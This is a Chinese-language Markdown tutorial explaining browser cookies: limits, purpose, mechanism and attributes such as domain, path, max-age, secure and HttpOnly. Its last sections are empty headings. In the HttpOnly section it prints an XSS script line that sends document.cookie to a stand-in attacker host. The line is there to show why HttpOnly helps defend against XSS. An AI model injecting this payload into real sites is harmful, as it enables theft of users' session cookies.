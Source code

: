 ## cookie
`cookie` 是存储在浏览器的一小段文本信息。

### cookie 特征
- 伴随着 `http` 地请求往返于浏览器和服务器之间。
- 不同域名或不同路径下 cookie 的存储区域是不一样的。
- 每个域名下的 cookie 总数是有限的，每个浏览器所能允许存储的 cookie 大小也是有限制的。
  浏览器|每个域名最大 cookie 总数|cookie 总字节数
  --|--|--
  Chrome|180|4096
  Firefox|150|4097
  InternetExplorer|50|5117
  Opera|60|4096
  Safari|600|4093
- 不可跨域，有实效性等。

### cookie 作用
- 用户身份标识。
- 同源下，跨页面通信的一种方式。

### cookie 原理
- 浏览器第一次请求，服务器通过响应头下发 cookie，用来身份标识。
- 浏览器第二次请求，会自动带上符合条件的 cookie，服务器根据 cookie 辨识身份，来返回合理的响应体。

![cookie-原理.png](imgs/cookie-原理.png)

### cookie 属性
**name**: 同域下的 cookie-name 不可相同，否则会覆盖前者。有两个特殊的 name：
name|含义
--|--
__Secure- 前缀|以 __Secure- 为前缀的 cookie（其中连接符是前缀的一部分），必须与 secure 属性一同设置，同时必须应用于安全页面（即使用 HTTPS 访问的页面）
__Host- 前缀|以 __Host- 为前缀的 cookie，必须与 secure 属性一同设置，必须应用于安全页面（即使用 HTTPS 访问的页面），必须不能设置 domain 属性 （也就不会发送给子域），同时 path 属性的值必须为“/”

> [谷歌搜索](https://www.google.com/)就存在带有这种特殊前缀的 cookie-name。

**value**: 许多应用对其进行了编码，但按照 RFC 规范，无须编码。

**domain**: 控制 cookie 对哪个域有效。默认值是自动绑定当前站点的根路径。
- 不可跨域，比如在 localhost:5000 下不可设置 domain 为 127.0.0.1:7001 站点下的 cookie。
- 一级域名相同下的 cookie 可作用于二级域名，但是二级域名间不可交换使用。<br />比如：a.baidu.com 和 b.baidu.com 可使用 .baidu.com 域名下的 cookie，但 a.baidu.com 和 b.baidu.com 站点下的 cookie 不可相互使用。

**path**: 设置 cookie 的作用路径（就是页面路由 pathname）。当用户访问 /spa 时，可使用 / 和 /spa 下的 cookie，但不能使用 /ssr 下的 cookie。

**expires/max-age**: 设置 cookie 的过期时间。默认是 session，浏览器会话结束（关闭浏览器）时。
  - expires 是一个时间点，单位**毫秒**； 
  - max-age 是一个以**秒**为时间的时间段。max-age 可能的值：负数、0、正数。
    值|含义
    --|--
    负数|有效期为 session
    0|删除 cookie
    正数|有效期为创建时刻 + 最大时间

    例如，设置两年后过期：
    ``` js
    const expires = new Date(Date.now() + 2 * 365 * 24 * 3600 * 1000).toGMTString()
    const maxAge = 2 * 365 * 24 * 3600;
    ```
**secure**: 默认情况下，不管是 http、https 协议的请求都会把 cookie 发送到服务端。设置 secure 为 true 时，此时的 cookie 只能在 https 等安全协议下传输。
> 注意：只有是在 https 安全协议下的 web 站点，才能设置 secure 的值。

**HttpOnly**: 是否禁止浏览器通过 document.cookie 获取 cookie。这样能有效防止 XSS 攻击。假如 hacker 植入 script 脚本成功了且目标站点 HttpOnly 又设置为 false，那么 hacker 可轻松获取用户的 cookie：

``` js
<script>
  new Image().src = 'http://www.hacker.com/c=' + decodeURIComponent(document.cookie)
</script>
```

### cookie 设置、获取、删除

### cookie 优缺点

### refs
